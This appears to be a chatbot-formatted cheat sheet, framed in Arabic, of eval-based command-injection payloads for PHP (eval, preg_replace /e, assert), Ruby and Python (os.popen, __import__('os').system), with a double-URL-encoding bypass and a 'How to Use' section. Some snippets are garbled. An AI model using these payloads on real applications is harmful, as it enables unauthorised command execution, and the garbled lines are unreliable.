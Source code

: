 إليك تنظيم النقاط بشكل نصي عادي ومنظم:

---

### **Command Injection & Eval Exploitation**

#### **1. Eval Exploit**
- **Basic Eval Exploit**:
  ```bash
  it’s eval() exploit
  ”.system(”ls”).
  ```

#### **2. PHP Preg_Replace with /e Modifier**
- **Using `/e` Modifier**:
  ```bash
  preg_replace(find, do/e, here)
  ```
  - The `/e` modifier allows the `do` part to be evaluated as PHP code.

#### **3. Assert Function Exploit**
- **Assert Function**:
  ```bash
  assert function compares val1 and val2; if one is a system command, it executes.
  ```

#### **4. Eval Function with String Concatenation**
- **String Concatenation in Eval**:
  ```bash
  after “ that eval function, just hacher”%2b”test”%2b” (with + URL encoding)
  ```

#### **5. Ruby Eval Exploit**
- **Ruby Eval**:
  ```bash
  @message = eval "\\"Hello "+params['username']+"\\""
  ```
  - In Ruby, to execute OS commands, use backticks: `` `command` ``.

#### **6. Python Eval Exploit**
- **Python Eval**:
  ```bash
  "%2bstr(os.popen("ls").read())%2b"
  ```
  - `eval` will execute `os.popen("ls").read()`. The `.read()` method converts the object returned by `os.popen()` to text.

#### **7. Python OS Module Exploit**
- **Using `__import__`**:
  ```bash
  __import__('os').system('ls')
  ```

#### **8. Bypassing Backend Validation**
- **Double URL Encoding**:
  ```bash
  Use `str(__import__('os').popen('ls').read())`, but if the backend validates `/`, use double URL encoding.
  ```

---

### **How to Use This Information**
1. **Eval Exploit**:
   - Exploit `eval()` functions by injecting system commands.

2. **PHP Preg_Replace**:
   - Use the `/e` modifier in `preg_replace` to execute PHP code.

3. **Assert Function**:
   - Use the `assert` function to execute commands if one of the compared values is a system command.

4. **String Concatenation**:
   - Concatenate strings in `eval` functions to inject commands.

5. **Ruby Eval**:
   - Use backticks in Ruby to execute OS commands within `eval`.

6. **Python Eval**:
   - Inject Python code using `eval` to execute OS commands.

7. **OS Module**:
   - Use `__import__('os').system('ls')` to execute commands in Python.

8. **Bypass Validation**:
   - Use double URL encoding to bypass backend validation on special characters.

---

إذا كنت بحاجة إلى أي تعديلات إضافية، فلا تتردد في طلبها! 😊

